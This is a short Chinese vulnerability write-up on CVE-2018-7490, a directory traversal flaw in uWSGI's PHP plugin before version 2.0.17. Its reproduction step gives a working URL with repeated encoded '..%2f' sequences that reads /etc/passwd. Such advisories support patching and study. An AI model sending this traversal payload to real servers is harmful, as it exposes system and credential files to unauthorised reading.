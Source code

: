 （CVE-2018-7490）uWSGI PHP目录穿越漏洞
======================================

一、漏洞简介
------------

uWSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言。

uWSGI
2.0.17之前的PHP插件，没有正确的处理`DOCUMENT_ROOT`检测，导致用户可以通过`..%2f`来跨越目录，读取或运行`DOCUMENT_ROOT`目录以外的文件。

二、漏洞影响
------------

uWSGI \< 2.0.17

三、复现过程
------------

访问`http://www.0-sec.org:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`，成功读取文件：

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-7490)uWSGIPHP目录穿越漏洞/media/rId24.png)

参考链接
--------

> https://github.com/vulhub/vulhub/blob/master/uwsgi/CVE-2018-7490/README.zh-cn.md
